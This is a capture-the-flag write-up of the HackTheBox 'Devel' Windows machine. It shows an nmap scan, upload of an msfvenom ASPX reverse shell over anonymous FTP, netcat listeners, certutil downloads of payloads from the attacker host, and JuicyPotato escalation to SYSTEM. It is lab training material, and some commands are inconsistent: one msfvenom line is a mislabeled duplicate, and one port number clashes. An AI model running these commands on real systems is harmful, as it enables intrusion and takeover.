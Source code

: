 
# HackTheBox : Devel

This is a simple Windows box running a Microsoft IIS server. There is an FTP server running which allows annonymous login and a web page is hosted at port 80. The privelege escalation was 
quiet straight forward using JuicyPotato as there is ```SeImpersonatePrivilege ``` token is enabled which was a big clue for using this method.	

## Information Gathering

### Port scan 

```zsh
nmap -sS -sC -v 10.10.10.5 -p-
```
Result of the Nmap Scan

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 11:49 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 10.10.10.5 [4 ports]
Completed Ping Scan at 11:49, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:49
Completed Parallel DNS resolution of 1 host. at 11:49, 0.00s elapsed
Initiating SYN Stealth Scan at 11:49
Scanning 10.10.10.5 [65535 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
SYN Stealth Scan Timing: About 2.86% done; ETC: 12:07 (0:17:34 remaining)
SYN Stealth Scan Timing: About 11.33% done; ETC: 11:58 (0:07:57 remaining)
SYN Stealth Scan Timing: About 20.75% done; ETC: 11:56 (0:05:48 remaining)
SYN Stealth Scan Timing: About 33.44% done; ETC: 11:55 (0:04:01 remaining)
SYN Stealth Scan Timing: About 45.68% done; ETC: 11:55 (0:03:00 remaining)
SYN Stealth Scan Timing: About 57.95% done; ETC: 11:54 (0:02:11 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 11:54 (0:01:22 remaining)
SYN Stealth Scan Timing: About 83.26% done; ETC: 11:54 (0:00:48 remaining)
Completed SYN Stealth Scan at 11:54, 277.14s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.5.
Initiating NSE at 11:54
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 11:54, 7.77s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7

NSE: Script Post-scanning.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 285.56 seconds
           Raw packets sent: 131254 (5.775MB) | Rcvd: 185 (8.124KB)

```

## Enumeration

### Discovery

From the nmap results, it was very clear as to what are the 2 interesting things

- FTP at port 21

- Webpage at port 80

![Important stuff](./images/discovery.png)


### Generating a reverse shell to upload

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx > shell.aspx
```
 
## Exploitation

### Uploading the shell

- Simply Login into the FTP server with credentials `anonymous` and `anonymous`

![logging in with the credentials](./images/anonymous_login.png)

- Upload the apsx reverse shell code which you generated using the msfvenom

![Uploaded the apsx-rev-shell](./images/upload_rev_shell_using_put.png)

### Getting the shell

Start a listener at port 443 (the port you defined in the msfvenom)

```zsh
nc -lvnp 4444
```

Visit the aspx page to start the reverse shell and head back to the listener

![Visit the page](./images/page.png)


Now we have a shell back and should enumerate more inside to find more about the machine

![Intial shell](./images/rev_shell.png)



### Privilege Escalation

We take a look at all the details of the system

```cmd 
systeminfo
```
![Information about the system](./images/systeminfo.png)

Checking the privileges of the system we are working on

```cmd
whoami /priv
```

>SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

This is the broken privilege which can be used to our advantage by juicy potato.

For this to escalate our privileges , we will need to the following things

- python simple http server in your attacker box
- certutil.exe to transfer files via my kali machine to the victim windows machine
- reverse.exe a new one to be used to get a shell with system privileges
- juicy potato to exploit the SeImpersonatePrivilege
- Place all the files that you want to upload in the same folder and then start the http server

```zsh
python -m SimpleHTTPServer 8000
```
Making a new reverse.exe

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx > shell.aspx
```
Uploading the new reverse.exe 

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/reverse.exe reverse.exe
```
![Uplaoding reverse.exe](./images/reverse.exe.png)

Uploading JuicyPotatox86 as it is a 32 bit machine, so we will need the x86 bianry.

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Juicy.Potato.x86.exe Juicy.Potato.x86.exe 
```
![Uplaoding Juicy potato](./images/juiciypotato.exe.png)

Start a new listener at port 443

```zsh
nc -lvnp 443
```
To find the CLSID for the machine I used this link:
> https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_7_Enterprise/README.md

Run Juicy potato

```cmd
Juicy.Potato.x86.exe -l 1337 -p reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```
![Running Juicy potato](./images/potato_run.png)

Check the listener at port 443. You will now have a shell with System privileges

![Running Juicy potato](./images/admin_shell.png)

## Flags

***User Flag***

![User Flag](./images/userflag.png)

***Root Flag***

![Root Flag](./images/rootflag.png)




